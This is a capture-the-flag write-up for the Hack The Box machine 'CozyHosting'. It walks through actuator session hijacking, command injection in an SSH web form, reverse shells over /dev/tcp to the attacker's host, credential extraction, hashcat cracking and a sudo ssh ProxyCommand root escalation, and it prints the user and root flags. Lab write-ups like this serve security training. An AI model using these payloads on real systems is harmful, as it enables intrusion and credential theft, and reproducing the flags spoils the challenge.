


**Machine created by:** [commandercool](https://app.hackthebox.com/users/1005191)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.230 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 19:58 AEDT
Nmap scan report for 10.10.11.230
Host is up (0.014s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9001/tcp open  tor-orport
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.230 cozyhosting.htb
```

Looking at [cozyhosting.htb](http://cozyhosting.htb:80) we see a landing page.


A directory listing with ffuf returns a few main pages:

```
[Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 10ms]
    * FUZZ: login

[Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 11ms]
    * FUZZ: admin

[Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 14ms]
    * FUZZ: logout

[Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 15ms]
    * FUZZ: error
```

Admin just redirects to the login page, logout does nothing and the error page displays an error.

After looking around the page for any subdomains, technology references, bruteforcing the login, I recheck the error page and look it up and find its an error for Spring Boot!

I use the SecLists [spring-boot.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) with ffuf and find a few directories of interest.

```
[Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 17ms]
    * FUZZ: actuator

[Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 15ms]
    * FUZZ: actuator/env

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 15ms]
    * FUZZ: actuator/env/lang

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 20ms]
    * FUZZ: actuator/env/home

[Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 19ms]
    * FUZZ: actuator/env/path

[Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 12ms]
    * FUZZ: actuator/health

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 20ms]
    * FUZZ: actuator/beans

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 26ms]
    * FUZZ: actuator/mappings

[Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 16ms]
    * FUZZ: actuator/sessions
```

Looking at `/actuator/sessions` gives some data for what appears to be a session key and a username.

```json
{
  "0A0CD0AF79B091942EFFDE86572A04B5":"kanderson"
}
```

Editing my cookie session to be `0A0CD0AF79B091942EFFDE86572A04B5` from its original value and navigating to `/login` gives us the admin page!



## Exploitation & Initial Access

On the admin page is a SSH connection web version. I immediately try to connect to the local instance but, no dice.

I then try some command injection with `;whoami;` as the username, but I encounter an error about the `@<hostname>` being an issue at the end.

I decide to put my payload inside the SSH command and attempt some command injection.

I had alot of trouble achieving a reverse shell and ended up looking for some other options...

For whatever reason this ended up working: ``;`(/bin/bash)0>/dev/tcp/10.10.***.***/4445`` only once followed with `exec >&0` in the reverse shell connection.

```
$ nc -lvnp 4445
Connection from 10.10.11.230:43012
exec >&0
whoami
app
```

## User Flag

Looking in the current directory I found a file called `cloudhosting-0.0.1.jar`, and I hosted a directory webserver to download the file locally using `python3 -m http.server` and then visiting [cozyhosting.htb:8000](http://cozyhosting.htb:8000).

I extract the file using `jar xf cloudhosting-0.0.1.jar` and get some folders:

```
BOOT-INF/
META-INF/
org/
```

Looking inside `BOOT-INF/classes/application.properties` we see some credentials:

```
...
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Before logging in I make my shell more usable with `pwncat-cs`.

```
$ pwncat-cs
[00:05:00] Welcome to pwncat 🐈!
(local) pwncat$ listen --host=10.10.16.9 -m linux 4444
[00:05:08] new listener created for 10.10.16.9:4444
```

and in our earlier shell we run a reverse shell: `/bin/bash -i >& /dev/tcp/10.10.16.9/4444 0>&1` and recieve a connection back in pwncat.

```
[01:26:43] 10.10.11.230:55292: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.230:55292
           established
           all pending channels configured
```

Now let's use the postgres database:

```
(remote) app@cozyhosting:/app$ psql -h localhost -U postgres -W
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

I then connected to the `cozyhosting` database:

```
postgres=# \connect cozyhosting
Password:
You are now connected to database "cozyhosting" as user "postgres".
```

Inside the database are a few tables.

```
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

`users` catches my eye, so I get the data from the table.

```
cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

There's a hash for a user `admin`, I'll attempt to crack it with the [rockyou wordlist from SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).

```
$ hashcat -a 0 -m 3200 admin.hash ~/Documents/Hacking/Resources/SecLists/Passwords/Leaked-Databases/rockyou.txt

...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib...kVO8dm
...
```

There's a password, `manchesterunited`, I use it to SSH into the user `josh`.

```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...
josh@cozyhosting:~$ cat user.txt
e1d078c09c4e025113ee74b108f407ec
```

And there's the user flag! 

Flag: `e1d078c09c4e025113ee74b108f407ec`

## Root Flag

Running `sudo -l` gives us an entry:

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Looking at [ssh entries on GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) gives us an entry for sudo permissions.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
55d1af421b8828f1c8c1ccacb64347bb
```

The root flag is: 

Flag: `55d1af421b8828f1c8c1ccacb64347bb`

Success!

